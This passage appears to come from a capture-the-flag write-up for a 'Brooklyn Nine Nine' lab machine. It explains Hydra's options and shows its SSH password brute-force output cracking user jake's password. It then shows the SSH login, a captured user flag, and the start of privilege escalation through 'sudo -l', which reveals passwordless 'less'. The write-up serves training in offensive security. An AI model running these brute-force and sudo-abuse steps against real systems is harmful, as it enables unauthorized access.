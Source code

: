 For context:
- `-l` - specifies the known username
- `-P` - specifies a wordlist to pull passwords from and attempt to authenticate with.
- `-t` - specifies number of threads
- `ssh://[ip]` - names the IP address and protocol we are attempting to authenticate to with the provided credentials

The output from the above is:
```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-09-12 21:07:15
[DATA] max 6 tasks per 1 server, overall 6 tasks, 10000 login tries (l:1/p:10000), ~1667 tries per task
[DATA] attacking ssh://target-ip:22/
[STATUS] 186.00 tries/min, 186 tries in 00:01h, 9814 to do in 00:53h, 6 active
[STATUS] 182.00 tries/min, 546 tries in 00:03h, 9454 to do in 00:52h, 6 active
[STATUS] 180.86 tries/min, 1266 tries in 00:07h, 8734 to do in 00:49h, 6 active
[22][ssh] host: target-ip   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-12 21:15:54
```

- We can see that Hydra successfully found the Jake user password to be set as: 987654321
- We can use this to authenticate to the machine via SSH and grab the user flag with the following syntax:
```bash
ssh jake@[ip]

The authenticity of host 'target-ip (target-ip)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'target-ip' (ECDSA) to the list of known hosts.
jake@target-ip's password: 987654321
Last login: Tue May 26 08:56:58 2020

jake@brookly_nine_nine:~$ 
```

We can further enumerate this machine by searching through directories. It is worth noting that there are 2 other user directories in the `/home` directory, belonging to `/amy` and `/holt`. The `user.txt` file can be found in the `/holt` directory. 

```
flag: ee11cbb19052e40b07aac0ca060c23ee
```

## Privilege Escalation
Typical Privilege Escalation begins with moving over enumeration scripts like LinPEASS and LinEnum for automation. While those run, it is a good idea to check `sudo` privileges with `sudo -l`. If some are found, checking them on GTFOBins is worthwhile.

- To start, I ran `sudo -l` to check privileges for the jake user. This was the output:
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
